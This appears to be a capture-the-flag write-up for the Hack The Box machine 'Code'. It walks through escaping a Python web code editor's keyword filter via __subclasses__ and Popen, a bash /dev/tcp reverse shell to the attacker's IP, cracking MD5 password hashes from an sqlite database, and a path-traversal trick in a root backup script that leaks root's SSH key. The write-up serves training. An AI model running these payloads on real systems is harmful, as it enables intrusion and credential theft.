

# Write-Up: Code - Easy | [Machines](../../../MACHINES.md)

>  Platform: Hack The Box\
>  OS: Linux\
>  Difficulty: Easy\
>  Author: Fokos Nikolaos\
>  Completion Date: 06-7-2025\
>  Objective: Capture `user.txt` and `root.txt` flags

---

# Banner



---

# Summary

This box featured a Python-based web code editor with restricted keyword enforcement, which could be bypassed via Python class hierarchy enumeration. The exploitation relied on crafting a payload using `subclasses()` to gain command execution and escalate to user. For root, a backup script running with root privileges was abused through directory traversal and archive injection to ultimately extract the root's SSH key.

---

## Target Enumeration

### Nmap scan

Starting the enumeration process, with an Nmap scan to identify open ports and services running on the target machine.

```bash
nmap -sC -sV -F 10.129.245.206
```

#### Parameters:
- `-sV` Used to print the version of found services.
- `-sC` Used to print more details about found services.
- `-F` Scan the most commonly used ports (Fast Mode).

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sV -sC -F 10.129.245.206
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-02 05:46 EDT
Nmap scan report for 10.129.245.206
Host is up (0.053s latency).
Not shown: 98 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b5:b9:7c:c4:50:32:95:bc:c2:65:17:df:51:a2:7a:bd (RSA)
|   256 94:b5:25:54:9b:68:af:be:40:e1:1d:a8:6b:85:0d:01 (ECDSA)
|_  256 12:8c:dc:97:ad:86:00:b4:88:e2:29:cf:69:b5:65:96 (ED25519)
5000/tcp open  http    Gunicorn 20.0.4
|_http-server-header: gunicorn/20.0.4
|_http-title: Python Code Editor
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.70 seconds
                                                                
```

#### Results:
- Port 22/tcp: OpenSSH 8.2p1
- Port 5000/tcp: Gunicorn 20.0.4

---

## Web Enumeration

Browsing to the web application running on port 5000, we find a Python code editor interface that it allows users to write and execute Python code.


The web page provides a simple interface with a text area for code input and a `Run` button to execute the code. The output of the executed code is displayed next to the input area. There is also a Login, Register and About button. Trying to login with common credentials e.g. `admin:admin`, `user:user`, etc. does not work, and the application does not provide any feedback if user exists or any other information. Proceeding to the Register page, we can create a new user account.

The registration form requires a username and password. After creating a new user account, we can log into the application. Not much has changed, we can still write and execute Python code, but now we have a `My Codes` section, storing our `Saved` Python scripts.

Proceeding with further exploration, the `About` page provides a welcome message and information about the application's purpose, stating that it is a web based Python code editor.


Trying to execute some code, we notice that the application does not allow importing any modules, which is a common restriction in online code editors to prevent abuse. However, we can still execute basic Python code.

For instance, executing the following code snippet, we receive `Use of restricted keywords is not allowed` error.

```python
import os
os.system('whoami')
```

There are ways to bypass this restriction, using simple Python subclasses. For now, focusing on further web enumeration, Dir-Busting methods are used. Executing `dirsearch` or `gobuster` for this purpose, we try to find other endpoints to the web page.

```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://10.129.245.206:5000/ -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.245.206:5000/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/about                (Status: 200) [Size: 818]
/codes                (Status: 302) [Size: 199] [--> /login]
/login                (Status: 200) [Size: 730]
/logout               (Status: 302) [Size: 189] [--> /]
/register             (Status: 200) [Size: 741]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

The scan had no result other that what is already know. Proceeding with further enumeration on the web application, we know that `import` is not allowed. There are ways to execute system commands without the need of modules. Here comes the base subclasses of Python.

```python
print((()).__class__.__base__.__subclasses__())
```

The output of this code will list all the available subclasses, including the `popen` module which is part of the `subprocess` module.
We will need to find the index of the `Popen` subclass, in order to make calls. For this purpose a simple python script is written to print each subclass and the class index.

```python
classes = (()).__class__.__base__.__subclasses__()

for class_index in range(len(classes)):
    print(class_index, (()).__class__.__base__.__subclasses__()[class_index].__name__)
```

The output is a huge list of classes with their corresponding indexes. The web page interface is not able to show all of them. In this way we can search for the index of `Popen` using `burpsuite`, by executing the script on its embedded browser, and then navigating to Proxy > HTTP History, to inspect the response.

Taking a look at the response, the index of `Popen` has been found.

```
class index 317 Popen\n
```

The `Popen` class index is `317`, and now it's possible to call the class and execute system commands, as arguments.

The Python `subprocess` [documentation](https://docs.python.org/3/library/subprocess.html) explains in detail the module.

---

## Exploitation

Since the index of `Popen` is found, it's time to test the exploit by spawning a reverse shell.

Setting up a listener with `nc -lvnp 8888`, the following Python command is written on the editor, calling `Popen` to execute the command in its arguments.

```python
(()).__class__.__base__.__subclasses__()[317]("bash -c 'bash -i >& /dev/tcp/10.10.14.186/8888 0>&1'", shell=True)
```

The listener gets a response with a reverse shell waiting for us.

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 8888
listening on [any] 8888 ...
connect to [10.10.14.186] from (UNKNOWN) [10.129.245.206] 49520
bash: cannot set terminal process group (2058): Inappropriate ioctl for device
bash: no job control in this shell
app-production@code:~/app$
```

Next, a more appropriate shell is spawned using Python's `pty` module.

```bash
app-production@code:~/app$ python3 -c 'import pty;pty.spawn("/bin/bash")'
```

---

## User Flag

Having a strong foothold on our target's system, currently logged in as a low-privileged user `app-production`, we try searching the system directories.

The `user.txt` flag can be found under `/home/app-production`

```bash
app-production@code:~/app$ cd ../
cd ../
app-production@code:~$ ls
ls
app
user.txt
```

After capturing the user flag, searching for other useful files on the system, we navigate to our previous directory where the application is hosted.

```bash
app-production@code:~$ cd app
cd app
app-production@code:~/app$ ls 
ls
app.py
instance
__pycache__
static
templates
app-production@code:~/app$ cd instance
cd instance
app-production@code:~/app/instance$ ls 
ls
database.db
```

Searching inside the application's directory and checking the first directory listed `instance`, we find immediately the local database file. Trying to read its contents using `sqlite3`, we find user credentials.

```bash
app-production@code:~/app/instance$ sqlite3 database.db
sqlite3 database.db
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> .tables
.tables
code  user
sqlite> select * from user;
select * from user;
1|development|759b74ce43947f5f4c91aeddc3e5bad3
2|martin|3de6f30c4a09c27fc71932bfc68474be
```

Two (2) users have been found with their username and password hashes.

- `martin:3de6f30c4a09c27fc71932bfc68474be`
- `development:759b74ce43947f5f4c91aeddc3e5bad3`

Using `john` to crack these two MD5 hashes we found the password of `martin` and `development`.

### Martin Hash

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash --format=raw-md5
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
nafeelswordsmaster (?)     
1g 0:00:00:00 DONE (2025-08-02 09:35) 4.761g/s 24889Kp/s 24889Kc/s 24889KC/s nafi1993..nafal1
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

### Development Hash

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash --format=raw-md5       
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
development      (?)     
1g 0:00:00:00 DONE (2025-08-02 09:38) 100.0g/s 20294Kp/s 20294Kc/s 20294KC/s dompet..deshawn15
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

#### Results:
- `martin:nafeelswordsmaster`
- `development:development`

Using `ssh` to connect to the target's system as `martin`, submitting the credentials found, user access to the system is achieved.

```bash
┌──(kali㉿kali)-[~]
└─$ ssh martin@10.129.245.206
martin@10.129.245.206's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-208-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sun 03 Aug 2025 12:34:44 PM UTC

  System load:           0.08
  Usage of /:            51.5% of 5.33GB
  Memory usage:          13%
  Swap usage:            0%
  Processes:             235
  Users logged in:       0
  IPv4 address for eth0: 10.129.245.206
  IPv6 address for eth0: dead:beef::250:56ff:fe94:27f7


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Sun Aug 3 12:34:45 2025 from 10.10.14.186
martin@code:~$ 
```

---

## Root Flag

Having user access to the system, it's time to try and escalate our privileges to `root`.

Searching for binaries, where `martin` can execute as `root`, by running `sudo -l`, we get the following results.

```bash
martin@code:/$ sudo -l
Matching Defaults entries for martin on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User martin may run the following commands on localhost:
    (ALL : ALL) NOPASSWD: /usr/bin/backy.sh
```

The system user `martin` can execute a `backy.sh` script as super user. Trying to run the script, usage information is printed.

```bash
martin@code:/$ /usr/bin/backy.sh
Usage: /usr/bin/backy.sh <task.json>
```

A similar configuration file can be found on `martin`'s home directory, under `/home/martin/backups`

```bash
martin@code:~/backups$ ls
code_home_app-production_app_2024_August.tar.bz2  task.json
```

Inspecting the `task.json` file, a backup configuration is found.

```bash
martin@code:~/backups$ cat task.json
{
        "destination": "/home/martin/backups/",
        "multiprocessing": true,
        "verbose_log": false,
        "directories_to_archive": [
                "/home/app-production/app"
        ],

        "exclude": [
                ".*"
        ]
}
```

The configuration file specifies the destination of the backup and the directories to be archived. Since the user can run the script as `root`, we may be able to modify the configuration and change the targeted directories for backup, to the one under `/root`. 

Reading the `backy.sh` script to understand what it does, we notice, the directory paths being filtered, excluding once characters like `/` and `..`. Since the script excludes these characters and allows only backups for directories under `/var` and `/home`, we can modify the root path to `/home//....//root`, using double the characters `//` and `....`.

Using the following configuration, the `root` directory will be archived by `backy.sh`

```json
{
        "destination": "/home/martin/backups/",
        "multiprocessing": true,
        "verbose_log": false,
        "directories_to_archive": [
                "/home//....//root"
        ]
}
```

After modifying `task.json` and executing `sudo /usr/bin/backy.sh task.json` we archive the `root` directory.

```bash
martin@code:~/backups$ sudo /usr/bin/backy.sh task.json
2025/08/03 13:04:54 🍀 backy 1.2
2025/08/03 13:04:54 📋 Working with task.json ...
2025/08/03 13:04:54 💤 Nothing to sync
2025/08/03 13:04:54 📤 Archiving: [/home//../root]
2025/08/03 13:04:54 📥 To: /home/martin/backups ...
2025/08/03 13:04:54 📦
```

The backup archive is in `.bz2`, and therefore it need to be extracted as follows.

```bash
bzip2 -d code_home__.._root_2025_August.tar.bz2
tar -xvf code_home__.._root_2025_August.tar
```

The files of `/root` are extracted under `/home/martin/backups/root`. We don't own the system just yet. Instead of capturing the `root.txt` flag found on the extracted files, we will use the private key under `.ssh/id_rsa` to directly login as `root` to the system, via SSH.

```bash
martin@code:~/backups$ cd root/.ssh
martin@code:~/backups/root/.ssh$ ls
authorized_keys  id_rsa
martin@code:~/backups/root/.ssh$ ssh root@10.129.245.206 -i id_rsa
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-208-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sun 03 Aug 2025 01:15:34 PM UTC

  System load:           0.03
  Usage of /:            51.6% of 5.33GB
  Memory usage:          14%
  Swap usage:            0%
  Processes:             239
  Users logged in:       1
  IPv4 address for eth0: 10.129.245.206
  IPv6 address for eth0: dead:beef::250:56ff:fe94:27f7


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sun Aug 3 13:15:35 2025 from 10.129.245.206
root@code:~# 
 
```

The system is ours and the `root.txt` flag is found under `/root`.

---

## Vulnerabilities

- Insufficient class control in an interactive Python environment.
- Local database file found on application source tree.
- Rooted backup utility misconfiguration.

---

## Learning Outcome

- Learned how to bypass restricted execution environments in Python using subclass inspection.
- Understood the implications of insecure code execution sandboxes and weak server-side validations.
- Exploited insecure `sudo` configurations involving poorly validated backup scripts.
- Practiced privilege escalation via SSH key extraction from root-owned files.

---

## Tools Used

- `nmap`, `python3`, `john`, `ssh`, `bzip2`, `tar`.

---

## References

- https://docs.python.org/3/library/subprocess.html

